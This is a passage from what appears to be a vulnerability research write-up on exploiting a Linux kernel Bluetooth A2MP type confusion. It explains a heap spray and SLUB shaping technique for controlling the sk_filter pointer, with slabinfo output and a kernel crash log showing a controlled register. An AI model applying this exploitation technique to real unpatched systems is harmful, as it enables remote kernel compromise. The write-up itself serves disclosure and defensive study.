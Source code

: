 This is almost the perfect heap primitive, since the size and content can be arbitrary! The only downside is that there is no convenient primitive which allows us to free the allocations. It seems like the only way to free them is to close the HCI connection, which is a relatively slow operation. Yet, to understand how we may free allocations in a controlled way (e.g. free every second allocation to create holes), we need to pay close attention to the memory management. Note that when we store a new memory address at `ctrl->assoc`, we do not free the memory block previously stored there. Rather, that memory block will simply be forgotten when we override it. To make use of this behavior, we can override every second `ctrl->assoc` with an allocation of a different size, and once we close the HCI connection, the other half will be freed while the ones we overrode remain allocated.

### Controlling the Out-Of-Bounds Read

So why did we want to have a heap primitive? Recall that the idea is to shape the heap and achieve a constellation where a memory block controlled by us is located one block away from the `struct amp_mgr` object. By doing so, we can control the value at offset 0x110 which represents the `sk_filter` pointer. As a result, when we trigger the type confusion, we can dereference an arbitrary pointer.

The following basic technique works quite reliably on Ubuntu which uses the SLUB allocator:

1. Allocate a lot of objects with size of 128 bytes to fill the kmalloc-128 slabs.
2. Create a new A2MP channel and hope that the `struct amp_mgr` object is adjacent to sprayed objects.
3. Trigger the type confusion and achieve a controlled out-of-bounds read.

To verify that our heap spray was successful, we can first query `/proc/slabinfo` for information about kmalloc-128 on the victim's machine:

```bash
$ sudo cat /proc/slabinfo
slabinfo - version: 2.1
# name            <active_objs> <num_objs> <objsize> <objperslab> <pagesperslab> : tunables <limit> <batchcount> <sharedfactor> : slabdata <active_slabs> <num_slabs> <sharedavail>
...
kmalloc-128         1440   1440    128   32    1 : tunables    0    0    0 : slabdata     45     45      0
...
```

Then, after the heap spray, we can query once again and find that `active_objs` increased:

```bash
$ sudo cat /proc/slabinfo
...
kmalloc-128         1760   1760    128   32    1 : tunables    0    0    0 : slabdata     55     55      0
...
```

In the example above, we sprayed 320 objects. Now, if we manage to allocate the `struct amp_mgr` object in the surrounding of these newly sprayed objects, we may hit a panic trying to dereference a controlled pointer (observe the value of RAX):

```
[   58.881623] general protection fault: 0000 [#1] SMP PTI
[   58.881639] CPU: 3 PID: 568 Comm: kworker/u9:1 Not tainted 5.4.0-48-generic #52-Ubuntu
[   58.881645] Hardware name: Acer Aspire E5-575/Ironman_SK  , BIOS V1.04 04/26/2016
[   58.881705] Workqueue: hci0 hci_rx_work [bluetooth]
[   58.881725] RIP: 0010:sk_filter_trim_cap+0x65/0x220
[   58.881734] Code: 00 00 4c 89 e6 48 89 df e8 b8 c5 af ff 41 89 c5 85 c0 75 62 48 8b 83 10 01 00 00 48 85 c0 74 56 49 8b 4c 24 18 49 89 5c 24 18 <4c> 8b 78 18 48 89 4d b0 41 f6 47 02 08 0f 85 41 01 00 00 0f 1f 44
[   58.881740] RSP: 0018:ffffbbccc10d3ca0 EFLAGS: 00010202
[   58.881748] RAX: 4343434343434343 RBX: ffff96da38f70300 RCX: 0000000000000000
[   58.881753] RDX: 0000000000000000 RSI: ffff96da62388300 RDI: ffff96da38f70300
[   58.881758] RBP: ffffbbccc10d3d00 R08: ffff96da38f67700 R09: ffff96da68003340
[   58.881763] R10: 00000000000301c0 R11: 8075f638da96ffff R12: ffff96da62388300
[   58.881767] R13: 0000000000000000 R14: 0000000000000001 R15: 0000000000000008
[   58.881774] FS:  0000000000000000(0000) GS:ffff96da69380000(0000) knlGS:0000000000000000
```